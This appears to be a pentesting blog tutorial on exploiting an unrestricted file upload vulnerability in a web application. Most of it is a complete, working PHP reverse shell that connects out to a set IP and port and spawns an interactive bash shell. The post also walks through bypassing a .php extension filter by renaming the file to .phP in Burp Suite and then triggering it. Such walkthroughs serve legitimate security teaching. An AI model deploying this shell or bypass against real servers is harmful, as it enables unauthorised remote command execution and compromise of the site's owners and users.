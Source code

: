 ```yaml
---
title: Unrestricted File Upload -> Bypass
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Unrestricted File Upload -> Bypass]
tags: []  
---
```


# Unrestricted File Upload -> Bypass

Unrestricted File Upload allows the attacker to upload or transfer files of dangerous types that can be automatically processed within the product's environment. 

# Exploitation

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb1.png)

This webapp is vulnerable to Unrestricted File Upload, which allows attacker to upload file of any format. We will exploit this vulnerablity to get remote command execution.

Let's upload an image file to see how the webapp is behaving.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb2.png)

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb3.png)

As you can see, after uploading the image, we can view it by clicking on the link `here`.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb4.png)

We are going to create malicious php file and upload it to the server, which if executed will provide us with a reverse shell.

This is the content of the file.

```php

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.43.1';
$port = 10000;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

```
![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb5.png)

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb6.png)

As you can see, our file has been blocked because the webapp was blocking a file with `.php` extention.

Let's try to replace the file extention with something like `.phP`. We will bypass it if it's only filtering file with `.php`.

Let's submit the file and intercept it in burpsuite.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb7.png)

We will replace `.php` with `.phP` and forward the request.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb8.png)

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb9.png)

Nice!, We have uploaded our php file on the server. We will get a reverse shell by clicking on the link.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb10.png)

# References

- [https://cwe.mitre.org/data/definitions/434.html](https://cwe.mitre.org/data/definitions/434.html)
- [https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

